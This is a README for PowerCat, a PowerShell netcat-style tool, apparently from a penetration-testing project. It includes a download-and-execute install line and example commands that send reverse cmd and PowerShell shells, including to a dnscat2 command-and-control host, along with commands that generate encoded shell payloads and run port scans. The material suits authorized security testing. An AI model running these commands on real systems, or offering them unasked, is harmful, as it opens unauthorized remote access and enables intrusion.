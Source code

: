 PowerCat
========
```powershell
Write-Warning 'PowerCat is under construction. Check back soon for updates.'
Write-Warning 'I will remove this warning when the code is functional.'
```
A PowerShell TCP/IP swiss army knife. #requires -Version 2

Installation
------------
PowerCat is a PowerShell module.  First you need to import the module before you can use the PowerCat functions.  You can put one of the below commands into your PowerShell profile so PowerCat is automatically loaded when PowerShell starts.
###
```powershell
    # Import the functions from downloaded .psm1 File:
        Import-Module PowerCat.psm1
    # Load the functions individually from URL:
        Invoke-Expression (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/secabstraction/PowerCat/master/Invoke-PowerCat.ps1')
        Invoke-Expression (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/secabstraction/PowerCat/master/Invoke-DnsCat.ps1')
```
### Parameters:
```powershell    
    New-PowerCat
    
    -Listener       # Listen for a connection.                            [Switch]
    -Client         # IPv4 address of a listener to connect to.           [String]
    -Relay          # Format: "<Mode>:10.1.1.1:443"                       [String]
    
    -Mode           # Defaults to Tcp, can also specify Udp, Icmp         [String]
    -Port           # The port to connect to or listen on.                [Int]
    -Execute        # Execute a process.                                  [String]
    -PowerShell     # Execute Powershell.                                 [Switch]
    -Timeout        # Timeout option. Default: 60                         [Int]
    -Input          # Filepath (string), byte array, or string.           [Object]
    -OutputType     # Console Output Type: "Host", "Bytes", or "String"   [String]
    -OutputFile     # Output File Path.                                   [String]
    -Disconnect     # Disconnect after connecting.                        [Switch]
    -Repeat         # Restart after disconnecting.                        [Switch]
    -Payload        # Generate payload.                                   [Switch]
    -Encoded        # Base64 encode payload.                              [Switch]
```
Basic Connections
-----------------------------------
By default, PowerCat reads input from the console and writes input to the console using write-host. You can change the output type to 'Bytes', or 'String' with the -OutputType.
###
    Basic Listener:
        New-PowerCat -Listener -Port 443
        
    Basic Client:
        New-PowerCat -Client 10.1.1.1 -Port 443
        
    Basic Client, Output as Bytes:
        New-PowerCat -Client 10.1.1.1 -Port 443 -OutputType Bytes

File Transfer
-------------
PowerCat can be used to transfer files using the -Input and -OutputFile parameters.
###
    Send File:
        New-PowerCat -Client 10.1.1.1 -Port 443 -Input C:\pathto\inputfile
        
    Recieve File:
        New-PowerCat -Listener -Port 443 -OutputFile C:\pathto\outputfile

Shells
------
PowerCat can be used to send and serve shells. Specify an executable to -Execute, or use -PowerShell to execute powershell.
###
    Serve a cmd Shell:
        New-PowerCat -Listener -Port 443 -Execute cmd
        
    Send a cmd Shell:
        New-PowerCat -Client 10.1.1.1 -Port 443 -Execute cmd
        
    Serve a shell which executes powershell commands:
        New-PowerCat -Listener -Port 443 -PowerShell

DNS and UDP
-----------
PowerCat supports more than sending data over TCP. Specify -Mode Udp to enable UDP Mode. Data can also be sent to a [dnscat2 server](https://github.com/iagox86/dnscat2) via Invoke-DnsCat.
###
    Send Data Over UDP:
        New-PowerCat -Listener -Port 8000 -Mode Udp
        
    Connect to the c2.example.com dnscat2 server using the DNS server on 10.1.1.1:
        Invoke-DnsCat -Client 10.1.1.1 -Port 53 -Server c2.example.com
        
    Send a shell to the c2.example.com dnscat2 server using the default DNS server in Windows:
        Invoke-DnsCat -Server c2.example.com -Execute cmd

Relays
------
Relays in PowerCat work just like traditional netcat relays, but you don't have to create a file or start a second process. You can also relay data between connections of different protocols.
###
    TCP Listener to TCP Client Relay:
        New-PowerCat -Listener -Port 8000 -Relay tcp:10.1.1.16:443
        
    TCP Listener to UDP Client Relay:
        New-PowerCat -Listener -Port 8000 -Relay udp:10.1.1.16:53
        
    TCP Listener to DNS Client Relay
        Invoke-DnsCat -Listener -Port 8000 -Relay dns:10.1.1.1:53:c2.example.com
        
    TCP Listener to DNS Client Relay using the Windows Default DNS Server
        Invoke-DnsCat -Listener -Port 8000 -Relay dns:::c2.example.com
        
    TCP Client to Client Relay
        New-PowerCat -Client 10.1.1.1 -Port 9000 -Relay tcp:10.1.1.16:443
        
    TCP Listener to Listener Relay
        New-PowerCat -Listener -Port 8000 -Relay tcp:9000

Generate Payloads
-----------------
Payloads can be generated using -Payload or -Encoded parameters. 
###
    Generate a reverse tcp payload which connects back to 10.1.1.15 port 443:
        New-PowerCat -Client 10.1.1.15 -Port 443 -Execute cmd -Payload
        
    Generate a bind tcp encoded command which listens on port 8000:
        New-PowerCat -Listener -Port 8000 -Execute cmd -Payload -Encoded

Misc Usage
----------
PowerCat can also be used to perform port-scans, and start persistent listeners.
###
    Basic TCP port scan:
        1..1024 | ForEach-Object { New-PowerCat -Client 10.1.1.10 -Port $_ -Timeout 1 -Verbose -Disconnect }
    
    Basic UDP port scan:
        1..1024 | ForEach-Object { New-PowerCat -Mode Udp -Client 10.1.1.10 -Port $_ -Timeout 1 -Verbose }
        
    Persistent listener:
        New-PowerCat -Listener -Port 443 -Input C:\pathto\inputfile -Repeat
